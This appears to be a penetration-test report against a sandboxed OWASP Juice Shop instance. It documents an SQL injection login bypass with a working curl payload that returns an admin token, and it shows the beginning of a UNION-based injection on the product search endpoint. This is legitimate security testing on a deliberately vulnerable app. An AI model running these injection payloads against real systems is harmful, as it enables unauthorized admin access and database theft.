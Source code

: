 ## Successfully Exploited Vulnerabilities

### INJ-VULN-01: SQL Injection Authentication Bypass

**Summary:**
- **Vulnerable location:** POST /rest/user/login (email field)
- **Overview:** Direct string interpolation in SQL query enables complete authentication bypass
- **Impact:** Administrative access bypass, complete system compromise
- **Severity:** Critical

**Prerequisites:**
None - publicly accessible endpoint

**Exploitation Steps:**

1. Send POST request to login endpoint with SQL injection payload in email field:
```bash
curl -X POST http://juice-shop.sandbox.local:3001/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"'\'' OR '\''1'\''='\''1'\'' --","password":"test"}'
```

2. Receive admin JWT token and user details:
```json
{
  "authentication": {
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9...",
    "bid": 1,
    "umail": "admin@juice-sh.op"
  }
}
```

**Proof of Impact:**
Successfully bypassed authentication and obtained admin-level access token for user ID 1 (admin@juice-sh.op) with role "admin". This provides complete administrative access to the application.

**Notes:**
The vulnerability exists due to direct string interpolation in SQL query construction at `/routes/login.ts:34`. The email field accepts arbitrary SQL commands allowing complete database access.

### INJ-VULN-02: SQL Injection Data Extraction

**Summary:**
- **Vulnerable location:** GET /rest/products/search (q parameter)
- **Overview:** UNION-based SQL injection enabling complete database extraction
- **Impact:** Full user database access including password hashes
- **Severity:** Critical

**Prerequisites:**
None - publicly accessible endpoint

**Exploitation Steps:**

1. Confirm SQL injection vulnerability:
```bash
curl -s "http://juice-shop.sandbox.local:3001/rest/products/search?q=test'"
```
Response: SQL syntax error confirming vulnerability
